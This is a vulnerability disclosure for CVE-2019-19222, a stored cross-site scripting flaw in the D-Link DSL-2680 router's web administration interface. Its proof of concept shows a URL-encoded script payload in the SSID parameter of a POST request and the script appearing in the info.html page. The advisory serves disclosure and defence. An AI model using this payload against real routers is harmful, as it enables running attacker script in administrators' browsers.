 ### CVE-2019-19222:  Stored XSS in DSL-2680 Web Administration Interface
**CVE:** CVE-2019-19222    
**Vulnerability Type**: Stored Cross Site Scripting (XSS)     
**Affected Product:** D-Link DSL-2680 - Firmware: EU_1.03    
**Affected Component:** D-Link DSL-2680: Web Administration Interface    
**Attack Type:** Remote    
**Impact:** Arbitrary Javascript code will be executed by the victim browser    

**Description:**    
A Stored XSS issue in the D-Link DSL-2680 web administration interface (Firmware EU_1.03) allows an authenticated attacker to inject arbitrary JavaScript code into the info.html administration page by sending a crafted POST request to the following URI:
`Forms/wireless_autonetwork_1`.

**Proof Of Concept:**    
As a proof-of-concept a POST request should be made to the following URI:
```
http://<x.x.x.x>/Forms/wireless_autonetwork_1 providing the following parameters:
```
providing the following parameter:
```
WLan_Finish_SSID=%3Cscript%3Ealert%281%29%3C%2Fscript%3E
```
After that the javascript payload will be injected in the following page: `http://<x.x.x.x>/info.html`
```
[...]
<TD class=form_label> Nome rete (SSID)&nbsp;:</td><td><script>alert(1)</script></td></tr><tr>
[...]
```
